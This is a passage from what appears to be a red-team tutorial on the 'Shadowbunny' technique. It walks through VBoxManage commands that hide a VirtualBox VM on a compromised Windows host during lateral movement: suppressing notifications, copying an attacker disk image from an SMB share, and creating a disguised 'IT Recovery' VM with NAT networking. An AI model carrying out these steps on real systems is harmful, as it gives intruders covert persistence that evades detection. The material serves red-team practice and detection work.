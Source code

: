 To create the new VM during lateral movement we will run a sequence of commands via VBoxManage, the management tool of VirtualBox. In the end the configuration is stored in an XML definition file, which can be registered with VBoxManage command as well.

### Disabling notifications
Optionally one can configure more settings of the product, for instance to suppress pop-up notifications:

```
VBoxManage.exe setextradata global GUI/SuppressMessages "all" 
```

Now that we know the basics of VBoxManage, let’s create move towards creation of the VM.


## Download the custom Shadowbunny VM disk image to the host

Like downloading the installation package, this can be done via multiple means. 

Let’s say we host the image on an SMB Share in Microsoft Azure:

```
Copy-Item \\smbserver\images\shadowbunny.vhd $env:USERPROFILE\VirtualBox\IT Recovery\shadowbunny.vhd
```

During red team operations, I have leveraged **a local file server** in an organization typically to host the file.  


## Configuring the VM

Using the `createvm` command we build out the VM and register the disk image file with the VM. `VBoxManage.exe` is installed at `\Program Files\Oracle\VirtualBox` after installation. 

* The following command will create the new VM:

    ```
    $vmname = "IT Recovery"
    .\VBoxManage.exe createvm --name $vmname --ostype "Ubuntu" --register
    ```
    This will create the VM and also register it right away, the output is the following:

    ```
    Virtual machine 'IT Recovery' is created and registered.
    UUID: 7891a2bd-e9cc-432a-ae2a-ba1fb2de96a4
    Settings file: 'C:\Users\wuzzi\VirtualBox VMs\IT Recovery\IT Recovery.vbox'
    ```

    Notice the settings file with the `.vbox` extension. This is the xml configuration file of the VM.

* Next, we can modify the VM to fit the simulation scenario

    In this case we add a network card for instance and configure it to use NAT, so that they VM can communicate with the outside world.

    ```
    .\VBoxManage.exe modifyvm $vmname --ioapic on  # required for 64bit
    .\VBoxManage.exe modifyvm $vmname --memory 1024 --vram 128
    .\VBoxManage.exe modifyvm $vmname --nic1 nat
    .\VBoxManage.exe modifyvm $vmname --audio none
    .\VBoxManage.exe modifyvm $vmname --graphicscontroller vmsvga
    .\VBoxManage.exe modifyvm $vmname --description "Shadowbunny"
    ```
